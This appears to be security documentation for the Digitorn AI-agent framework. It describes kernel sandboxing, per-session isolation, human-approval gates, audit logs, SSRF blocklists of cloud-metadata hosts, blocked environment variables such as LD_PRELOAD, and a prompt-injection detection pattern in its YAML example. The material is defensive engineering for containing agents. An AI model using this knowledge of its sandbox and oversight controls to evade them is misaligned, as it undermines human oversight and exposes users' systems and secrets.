

| YAML declaration | Kernel effect |
|-----------------|---------------|
| `filesystem.constraints.paths: [A, B]` | Landlock allows write to A, B only |
| `shell` module present | seccomp allows `execve` syscall |
| `shell` module absent | seccomp **blocks** `execve` at kernel level |
| `web`/`http`/`database` module present | seccomp allows `socket`/`connect` |
| No network module | seccomp **blocks** all network at kernel level |
| `mcp.servers.X.sandbox.permissions: [process.exec]` | seccomp allows exec for that server only |
| `mcp.servers.X` without `sandbox:` block | Compile error + runtime rejection + no OS rights |
| `sandbox.allow_paths: [/data:rw]` | Landlock adds `/data` as writable |
| `sandbox.allowed_hosts: [api.github.com]` | iptables allows only resolved IPs, drops all others |

### Secrets and Temp Isolation



- **Secrets protection**: `~/.digitorn/` contains `jwt.key`, `credentials.json`, `server.key`. These are now **read-only** at the Landlock level. No app can modify server configuration or steal keys.
- **Per-app state**: each app gets `~/.digitorn/app_state/{app_id}/` as its own writable directory.
- **Private tmpdir**: each worker subprocess gets its own temporary directory. The shared `/tmp` is not writable, preventing cross-app data leaks and /tmp staging attacks.

### Per-Session Isolation

With `strict` or `maximum` level, each session gets its own sandbox:



- **Own Landlock** — session A cannot read session B's workspace
- **Own PID namespace** — session A cannot see session B's processes
- **Own network namespace** — session A has its own loopback + iptables rules
- **Own tmpdir** — no cross-session temp file leaks
- **Own audit trail** — separate JSONL log per session
- **Warm worker pool** — ~0.1ms sandbox activation (vs Docker's ~500ms)
- **Workspace snapshots** — CoW copy per session (maximum level, overlayfs/reflink/copy)

### MCP Server Sandbox (Deny-by-Default)

MCP servers are fully controlled by the sandbox at **three independent levels**:



A server without a `sandbox:` block in the YAML has **no OS-level rights** and its tools are rejected before any call is made. See [OS-Level Sandbox -- MCP](35-sandbox.md#mcp-servers-deny-by-default) for the full reference.

### Network Filtering

When `allowed_hosts` is configured and the worker runs in a network namespace:



Hostnames are **pre-resolved to IPs** before the sandbox is applied. Even if the Python process is compromised, the kernel drops packets to non-allowed IPs.

### Docker Comparison

| Capability | Digitorn Sandbox | Docker |
|-----------|-----------------|--------|
| Filesystem isolation | Landlock per-path, kernel-enforced | overlayfs container-level |
| Syscall filtering | seccomp-bpf with fine-grained rules | seccomp coarser default profile |
| Real-time syscall audit | seccomp-notify, daemon intercepts | **Not available** |
| Process isolation | PID namespace, unprivileged | PID namespace, requires root daemon |
| Network isolation | Network namespace + iptables per-host | Bridge network, requires root daemon |
| Network host filtering | Per-host iptables, DNS pre-resolved | **Not available**, requires external firewall |
| JIT exploit prevention | `PR_SET_MDWE` blocks W+X mmap | **Not available** |
| Capability drop | All 41 caps dropped | Partial drop |
| Secrets isolation | `~/.digitorn` read-only, per-app state | Bind mounts, manual setup |
| Temp directory isolation | Private tmpdir per worker | Shared `/tmp` in container |
| MCP server sandbox | Deny-by-default, per-server permissions | **Not available**, must containerize each server |
| Audit trail | Append-only JSONL + seccomp-notify | Container logs only |
| Cold start | ~0.1ms from warm pool | ~500ms minimum |
| Root required | **No**, entirely unprivileged | Yes, dockerd needs root |
| Per-session isolation | Native via warm pool + deferred Landlock | Requires container-per-session |

See [OS-Level Sandbox](35-sandbox.md) for the full configuration reference.

## TLS (HTTPS)

Native TLS without a reverse proxy:

```bash
digitorn start --tls-cert cert.pem --tls-key key.pem
```

The daemon warns if:
- TLS key is readable by group/others (recommend `chmod 600`)
- Auth is enabled on non-localhost without TLS (tokens in plaintext)

See [Production Deployment](36-production.md) for the full guide.

## SSRF Protection

### DNS Rebinding Prevention

Outbound HTTP requests use **IP pinning**: the URL is validated and the
hostname is resolved once. The actual HTTP request uses the resolved IP
directly, preventing attackers from changing DNS between validation and
connection.

### Private IP Blocklist

All resolved IPs are checked against private/reserved ranges:
`127.0.0.0/8`, `10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`,
`169.254.0.0/16` (AWS/GCP metadata), and IPv6 equivalents.

## Socket.IO Hardening

Streaming endpoints (Socket.IO) are protected against resource exhaustion:

- **Queue limit**: 2000 events max buffered per connection
- **Idle timeout**: Connections without activity close after 5 minutes
- **Event `timeout`**: Sent to client before closing idle connections

## Serialization Security

All backend storage (Redis, cache) uses **JSON only**. Pickle has been completely
removed from the codebase. Unknown types degrade to plain dicts -- never to
code execution. The CI pipeline verifies zero pickle usage on every commit.

## Security Model Comparison

How Digitorn security compares to other agent frameworks:

| Feature | Digitorn | Claude Code | LangChain | CrewAI |
|---------|----------|-------------|-----------|--------|
| Per-action policy | grant/approve/block | allow/deny | None | None |
| Risk-level enforcement | 3 levels with cap | Basic | None | None |
| Approval workflow | Async queue + Socket.IO | Interactive prompt | None | None |
| Audit log | Persistent, queryable | None | None | None |
| Data classification | 4 levels | None | None | None |
| Rate limiting per action | Sliding window | None | None | None |
| Temporal scopes | Session + timed | None | None | None |
| Module visibility | Hidden + visible | N/A | N/A | N/A |
| Output sanitization | Auto-redact secrets in stdout | None | None | None |
| Path sandboxing | Deny-by-default + allowlist | Workspace only | None | None |
| Egress filtering | Domain allow/blocklist | None | None | None |
| Prompt injection detection | Pattern scan on fetch | Built-in | None | None |
| Memory secret redaction | Auto-redact before storage | N/A | None | None |
| OS-level sandbox | Landlock + seccomp + namespaces + hardening + cgroups + audit | None | None | None |
| MCP server sandbox | Deny-by-default (compile + runtime + OS enforcement) | None | None | None |
| Network host filtering | iptables per-host rules in network namespace | None | None | None |
| DNS rebinding protection | IP pinning after validation | None | None | None |
| TLS native | Built-in --tls-cert/--tls-key | N/A | None | None |
| Zero pickle | JSON-only serialization | N/A | N/A | N/A |
| Socket.IO hardening | Queue limit + idle timeout | None | None | None |
| CI security pipeline | pip-audit + 77 tests + secret scan | None | None | None |

## Implementation Details

### File Structure

```text
packages/digitorn/core/
    security.py          # SecurityProfile, ModuleGrant, security_gate (7 gates)
    security_audit.py    # SecurityAuditLog, SecurityEvent, param sanitization
    security_enforcer.py # ActionRateLimiter, DataClassification, TemporalGrantStore
    runtime/
        approval.py      # ApprovalQueue, ApprovalRequest (async Future-based)
    sandbox/
        __init__.py      # Public API: WorkerPool, AppSandboxWorker, WorkerState
        _libc.py         # Shared libc loader (avoids tempfile in /tmp after Landlock)
        profile.py       # SandboxProfile (YAML-derived isolation requirements)
        builder.py       # CompiledApp -> SandboxProfile translation
        landlock.py      # Linux Landlock LSM (kernel filesystem restriction)
        seccomp.py       # Linux seccomp-bpf (syscall filtering)
        hardening.py     # prctl-based hardening (caps, MDWE, dumpable)
        namespaces.py    # Linux namespace isolation (user, PID, net, mount)
        pool.py          # Warm worker pool for per-session sandboxing
        overlay.py       # CoW workspace snapshots (overlayfs/reflink/copy)
        audit.py         # Per-session immutable audit trail (JSONL)
        seccomp_notify.py # Real-time syscall audit via SECCOMP_RET_USER_NOTIF
        linux.py         # Linux orchestrator (all 6 layers + iptables network filtering)
        darwin.py        # macOS Seatbelt + setrlimit
        windows.py       # Windows Job Objects
        worker.py        # Worker proxy with state machine (WARM -> SANDBOXED)
        worker_main.py   # Worker subprocess entrypoint (standard + warm pool)
```

### Test Coverage

The security system has dedicated tests across multiple test files:

| Test file | Tests | Coverage |
|-----------|-------|----------|
| `test_security_gate.py` | 28 | All 7 gates, policy resolution |
| `test_security_advanced.py` | 32 | Audit log, rate limiting, classification, temporal scopes |
| `test_security_hardening.py` | 77 | Deny-by-default, path confinement, session gates, serialization, codebase scans |
| `test_sandbox.py` | 32 | Profile builder (MCP deny-by-default, private tmpdir, secrets isolation), IPC protocol, backend probing |
| `test_sandbox_enforcement.py` | 37 | 7-layer enforcement: Landlock (8), seccomp (9), hardening (5), namespaces (4), full stack (2), cross-session (3), attack scenarios (6) |
| Total | **206** | All security + sandbox features |

## Complete Security Reference

Every security feature is configurable in the application YAML.

### Full Example

```yaml
modules:
  filesystem:
    config:
      checkpoint: true
      max_checkpoints: 20
    constraints:
      paths: ["{{workspace}}"]        # Deny-by-default: confined to workspace
      max_file_size: "50MB"
      # unrestricted: false           # Default — set true to disable path confinement
      allowed_extensions: [".py", ".js", ".ts", ".yaml", ".md", ".json", ".txt"]

  shell:
    config:
      security:
        sanitize_output: true
        sensitive_patterns:
          - "COMPANY_INTERNAL"
          - "PROD_"
    constraints:
      allowed_actions: [bash]
      allowed_paths: ["/opt/tools"]   # Extra dirs the shell can reference beyond workspace
      # unrestricted: false           # Default — set true to disable path confinement

  web:
    config:
      egress:
        allowed_domains:
          - "docs.python.org"
          - "github.com"
          - "stackoverflow.com"
        blocked_domains:
          - "169.254.169.254"
          - "metadata.google.internal"
      security:
        detect_injection: true
        injection_patterns:
          - "you are a helpful assistant"

  http:
    constraints:
      allowed_hosts:
        - "api.github.com"
        - "httpbin.org"
        - "hooks.slack.com"

  database:
    constraints:
      allowed_hosts:
        - "db.company.com"
        - "analytics.internal"

  memory:
    config:
      security:
        redact_secrets: true
        sensitive_patterns:
          - "COMPANY_"
          - "INTERNAL_"

  mcp:
    config:
      servers:
        github:
          command: npx @modelcontextprotocol/server-github
          env:
            GITHUB_TOKEN: "{{secret.GITHUB_TOKEN}}"
          sandbox:                          # Required when capabilities: is present
            permissions: [process.exec, net.http, fs.read]
            paths:
              read: ['{{workspace}}']
            allowed_hosts: [api.github.com]
        local_docs:
          command: python -m docs_server
          sandbox:
            permissions: [process.exec, fs.read]
            paths:
              read: ['{{workspace}}/docs']
      cache:
        scope: auto
        ttl: 300

execution:
  workspace: "./project"
  sandbox:
    level: strict                       # off | standard | strict | maximum
    pool_size: 4                        # Pre-warmed workers
    allow_paths:
      - /data/models                    # Read-only beyond workspace
      - ~/shared-data:rw                # Read-write
    audit: true                         # Append-only JSONL per session
    resources:
      memory: "512MB"
      cpu: 2
      processes: 20

capabilities:
  default_policy: auto
  max_risk_level: medium
  grant:
    - module: filesystem
      actions: [read, ls, find, grep, edit, write, insert, mkdir]
    - module: git
      actions: [status, diff, log, blame, show, add, commit]
    - module: shell
      actions: [run, which, env]
  approve:
    - module: git
      actions: [push, reset, merge]
    - module: filesystem
      actions: [rm, mv, cp]
    - module: shell
      actions: [bash]
  deny:
    - module: database
      actions: [execute_query, batch_execute]
      reason: "Read-only database access"
```
### Configuration Summary

| Feature | Location in YAML | Default | Effect |
| --- | --- | --- | --- |
| Path confinement | `modules.filesystem.constraints.paths` | Workspace only | Agent can only access listed paths (deny-by-default) |
| Filesystem unrestricted | `modules.filesystem.constraints.unrestricted` | `false` | Set `true` to disable all path confinement |
| File size limit | `modules.filesystem.constraints.max_file_size` | `100MB` | Blocks read/write of files above limit |
| Shell actions | `modules.shell.constraints.allowed_actions` | All | Only listed actions are available |
| Shell path confinement | `modules.shell.constraints.allowed_paths` | Workspace only | Extra dirs the shell can reference in commands |
| Shell unrestricted | `modules.shell.constraints.unrestricted` | `false` | Set `true` to disable command path checking |
| Shell output sanitization | `modules.shell.config.security.sanitize_output` | `true` | Redacts secrets from command output |
| Shell sensitive patterns | `modules.shell.config.security.sensitive_patterns` | Built-in | Additional env var name patterns to redact |
| Session env protection | Automatic | Always on | Blocks `LD_PRELOAD`, `PATH`, `NODE_OPTIONS`, etc. in `session_env` |
| Session command gate | Automatic | Always on | `session_run`/`session_cd` pass through forbidden + path checks |
| Web allowed domains | `modules.web.config.egress.allowed_domains` | None (open) | Only listed domains can be fetched |
| Web blocked domains | `modules.web.config.egress.blocked_domains` | None | Always blocked, even if in allowed list |
| Web injection detection | `modules.web.config.security.detect_injection` | `true` | Warns when fetched content has injection patterns |
| HTTP allowed hosts | `modules.http.constraints.allowed_hosts` | None (localhost only for writes) | POST/PUT/DELETE allowed to listed hosts |
| DB allowed hosts | `modules.database.constraints.allowed_hosts` | None (localhost only) | Remote DB connections allowed to listed hosts |
| Memory secret redaction | `modules.memory.config.security.redact_secrets` | `true` | Redacts env var values before storing as facts |
| Memory sensitive patterns | `modules.memory.config.security.sensitive_patterns` | Built-in | Additional patterns to redact in memory |
| MCP env filtering | Automatic | Always on | MCP servers only see safe env vars + declared vars |
| MCP sandbox required | `modules.mcp.config.servers.X.sandbox` | None | Compile error if missing when capabilities present |
| Sandbox level | `execution.sandbox.level` | `standard` | `off`, `standard`, `strict`, `maximum` |
| Sandbox allow paths | `execution.sandbox.allow_paths` | None | Additional read/write paths beyond workspace |
| Sandbox audit | `execution.sandbox.audit` | `false` | Append-only JSONL per session |
| Sandbox pool size | `execution.sandbox.pool_size` | `2` | Number of pre-warmed workers |
| Sandbox resources | `execution.sandbox.resources` | No limit | `memory`, `cpu`, `processes` via cgroups |
| Secrets isolation | Automatic | Always on | `~/.digitorn` read-only, per-app state dir writable |
| Private tmpdir | Automatic | Always on | Each worker gets own tmpdir, `/tmp` not shared |
| Network filtering | `execution.sandbox.allowed_hosts` or module config | None | iptables per-host rules in network namespace |
| Grant actions | `capabilities.grant` | None | Allowed without approval |
| Approve actions | `capabilities.approve` | None | Requires human approval |
| Deny actions | `capabilities.deny` | None | Always blocked |
| Max risk level | `capabilities.max_risk_level` | `medium` | Actions above this risk require approval |
| Default policy | `capabilities.default_policy` | `auto` | Policy for actions not in grant/approve/deny |
